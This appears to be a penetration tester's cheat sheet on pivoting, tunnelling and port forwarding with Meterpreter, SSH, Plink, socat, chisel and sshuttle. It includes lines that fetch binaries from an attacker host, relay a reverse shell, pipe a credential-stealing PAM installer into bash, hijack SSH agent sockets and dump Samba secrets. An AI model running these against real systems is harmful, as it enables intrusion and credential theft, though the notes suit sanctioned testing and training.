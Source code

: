 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
    * `meterpreter> portfwd list` - check port forwarding list
    * in linux host, run `nmap <local_port>`
#### Reverse TCP relay
* https://medium.com/@nikosch86/how-to-metasploit-behind-a-nat-or-pivoting-and-reverse-tunneling-with-meterpreter-1e747e7fa901
* https://www.cobaltstrike.com/blog/reverse-meterpreter-connect-backs-through-a-compromised-host

# Manual tactics
#### Port Forwarding - SSH
* `ssh -4 -L 8000:127.0.0.1:3306 sysadmin@demo.ine.local` - forward target port _3306_ to attackers local port _8000_
    *  `-4` - use IPv4 only
*  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
    *  existing access on _172.16.0.5_
    *  forwards target's (_172.16.0.10) HTTP traffic through existing access _172.16.0.5_
    *  accessible on _localhost:8000_ as attacker machine
    *  `-f` - backgrounds the shell immediately
    *  `-N` don't execute commands, only set up connection

#### Proxies - SSH
* `ssh -D 1337 user@172.16.0.5 -fN`
    * combined with `proxychains`
 
#### Reverse connections
1. generate new ssh keys: `ssh-keygen`
2. copy content of _.pub_ file and paste it on attacker's machine in `~/.ssh/authorized_keys`
3. copy `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of `~/.ssh/authorized_keys`
4. copy attacker's private ssh key on target's system
5. `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN` - connect from the victim back to attacker with a reverse port forward

#### Reverse proxy - SSH
1. same step as above except 5.
2. `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`- from the victim

## Tools
### Plink - Windows
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
1. transport `plink.exe` to victim
2. move public key in `~/.ssh/authorized_keys`
3. convert the generated _keyfile_
    *  `sudo apt install putty-tools`
    *  `puttygen KEYFILE -o OUTPUT_KEY.ppk`
4. `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

### Socat
* set up encrypted traffic
* bypassing AV might require custom compilation
* https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat - Linux static binaries
* https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download - Windows static binaries
1. copy binary to target: `curl ATTACKING_IP/socat -o /tmp/socat && chmod +x /tmp/socat-USERNAME`
#### Reverse shell relay
2. attacking box: `sudo nc -lvnp 443`
3. compromised server: `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
#### Port forwarding
__Easy__

2. compromised server: `./socat tcp-l:33060,fork,reuseaddr tcp:<target-IP>:3306 &`
    * port _33060_ on victim is redirected to _target-IP_ port _3306_

__Quiet__

2. attacking machine: `socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
3. compromised server: `./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
4. target accessible back on attacking machine on _localhost:8000_

### Chisel
https://github.com/jpillora/chisel/releases
* `chisel client|server --help`
* configure `proxychains` according to details bellow
#### Reverse SOCKS proxy
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromise host: `./chisel(.exe) client ATTACKING_IP:LISTEN_PORT R:socks &`

#### Forward SOCKS proxy
1. compromised host: `./chisel(.exe) server -p LISTEN_PORT --socks5`
2. attacking machine: `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

#### Remote port forward
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromised host: `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
3. connect on the attacker machine on `127.0.0.1:LOCAL_PORT`

#### Local port forward
1. compromised host: `./chisel server -p LISTEN_PORT`
2. attacking machine: `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

### Shuttle - Linux
https://github.com/sshuttle/sshuttle
* `sudo apt install sshuttle`
* `sshuttle -r username@address subnet`
    * `sshuttle -r user@172.16.0.5 172.16.0.0/24`
        * _172.16.0.5_ - compromised host
        * _172.16.0.0/24_ - network to pivot into
* `sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`
    * `-x 172.16.0.5` - if the compromised host is part of the target network, this host needs to be __excluded__
* `sshuttle -r username@address -N`
    * `-N` - determine network automatically based on compromised server's routing table
* `sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`
    * `--ssh-cmd "ssh -i KEYFILE"` - use keyfile to connect to compromised host


> [!IMPORTANT]
> * when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
> * use `bind_tcp` payloads 

# Linux
* __SSH session hijacking__
    * requires **active** SSH session on the target
    * requires **root** 
    * `ps aux | grep sshd` - determine SSH process ID
    * `grep SSH_AUTH_SOCK /proc/<PID>/environ`
    * `SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXX ssh-add -l` - hijack target ssh-agent socket
    * `ssh remotesystem -l <victim>` - log into remote system as victim
* __SSH - stealing credentials__
    * malicious PAM module
    * https://github.com/mthbernardes/sshLooter
    * on attacking machine: edit _install.sh_ and _looter.py_ pointing _url_ variable to a server under attacket control to log POST requests
    * on compromised machine: `curl http://attacker-server/install.sh | bash`
* __Samba secrets__
    * `tdbdump /var/lib/samba/private/secrets.tdb`
    * https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

# Local Techniques
#### Local Port forward
* `ssh -L <local port to listen on>:<remote machine>:<remote port> <username>@<ssh-server>`

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding

